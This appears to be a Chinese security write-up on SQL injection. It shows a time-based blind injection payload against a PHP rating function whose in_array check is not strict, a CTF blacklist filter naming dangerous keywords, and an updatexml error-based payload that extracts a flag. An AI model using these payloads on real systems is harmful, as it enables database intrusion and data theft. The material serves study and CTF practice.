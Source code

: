 ```php
    .$image_id.','
    .$rate
    .',NOW())
;';
  pwg_query($query);

  return update_rating_score($image_id);
}
```

**只要rate为array(0,1,2,3,4,5)便可以进行绕过，而in_array第三位未设置为true**

- payload

```php
1,1 and if(ascii(substr((select database()),1,1))=112,1,sleep(3)));# 
```

- sqlmap

![](https://maekdown-1300474679.cos.ap-beijing.myqcloud.com/20200308174418.png)

### CTF 

- 环境搭建

![](https://maekdown-1300474679.cos.ap-beijing.myqcloud.com/20200308181630.png)

- stop_hack函数

```php
function stop_hack($value){
    $pattern = "insert|delete|or|concat|concat_ws|group_concat|join|floor|\/\*|\*|\.\.\/|\.\/|union|into|load_file|outfile|dumpfile|sub|hex|file_put_contents|fwrite|curl|system|eval";
    $back_list = explode("|",$pattern);
    foreach($back_list as $hack){
        if(preg_match("/$hack/i", $value))
            die("$hack detected!");
    }
    return $value;
}
```

**stop_hack用来过滤一些危险函数**

- 注入

![](https://maekdown-1300474679.cos.ap-beijing.myqcloud.com/20200308182616.png)

**获取get的ID，通过stop_hack进行过滤并拼接到sql语句中进行查询**

- 报错注入payload

```php
and (select updatexml(1,make_set(3,'~',(select flag from flag)),1))
```
![](https://maekdown-1300474679.cos.ap-beijing.myqcloud.com/20200308183821.png)
